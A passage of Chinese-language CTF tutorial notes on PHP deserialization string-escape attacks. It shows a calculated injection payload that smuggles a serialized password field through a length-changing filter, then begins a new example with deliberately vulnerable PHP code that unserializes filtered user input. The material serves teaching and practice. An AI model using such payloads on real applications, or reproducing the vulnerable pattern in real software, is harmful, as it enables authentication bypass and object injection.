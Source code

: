 ### payload 构造

在除不尽的情况下，要添加额外字符，且要添加到`;}`后面

```
目标：";s:8:"password";s:4:"easy";} = 29

得方程：9x + 29 = 13x	除不尽

目标添加额外字符：";s:8:"password";s:4:"easy";}aaa = 32
得方程：9x + 32 = 13x
			x  = 8
            
payload：challengechallengechallengechallengechallengechallengechallengechallenge";s:8:"password";s:4:"easy";}aaa
```





## 13.14 字符串逃逸例题

### 例题源码

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hk",$name);
    return $name;
}
class test{
    var $user;
    var $pass;
    var $vip = false ;
    function __construct($user,$pass){
        $this->user=$user;
    $this->pass=$pass;
    }
}
$param=$_GET['user'];
$pass=$_GET['pass'];
$param=serialize(new test($param,$pass));
$profile=unserialize(filter($param));

if ($profile->vip){
    echo "Success~";
    include_once "flag.php";
}
?>
```
